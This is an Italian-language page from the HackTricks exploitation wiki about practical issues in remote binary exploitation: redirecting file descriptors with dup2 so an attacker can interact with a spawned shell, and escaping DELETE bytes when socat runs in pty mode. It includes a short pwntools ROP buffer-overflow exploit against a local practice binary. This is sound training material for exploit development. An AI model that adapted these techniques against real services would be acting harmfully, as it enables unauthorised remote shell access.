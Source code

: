 # Problemi Comuni di Sfruttamento

{{#include ../../banners/hacktricks-training.md}}

## FDs nello Sfruttamento Remoto

Quando si invia un exploit a un server remoto che chiama **`system('/bin/sh')`** per esempio, questo verrà eseguito nel processo del server, e `/bin/sh` si aspetterà input da stdin (FD: `0`) e stamperà l'output in stdout e stderr (FDs `1` e `2`). Quindi l'attaccante non sarà in grado di interagire con la shell.

Un modo per risolvere questo è supporre che quando il server è stato avviato ha creato il **FD numero `3`** (per l'ascolto) e che poi, la tua connessione sarà nel **FD numero `4`**. Pertanto, è possibile utilizzare la syscall **`dup2`** per duplicare lo stdin (FD 0) e lo stdout (FD 1) nel FD 4 (quello della connessione dell'attaccante) in modo da rendere possibile contattare la shell una volta eseguita.

[**Esempio di exploit da qui**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```
## Socat & pty

Nota che socat trasferisce già `stdin` e `stdout` al socket. Tuttavia, la modalità `pty` **include caratteri DELETE**. Quindi, se invii un `\x7f` ( `DELETE` -) eliminerà **il carattere precedente** del tuo exploit.

Per aggirare questo, il **carattere di escape `\x16` deve essere preceduto a qualsiasi `\x7f` inviato.**

**Qui puoi** [**trovare un esempio di questo comportamento**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{{#include ../../banners/hacktricks-training.md}}
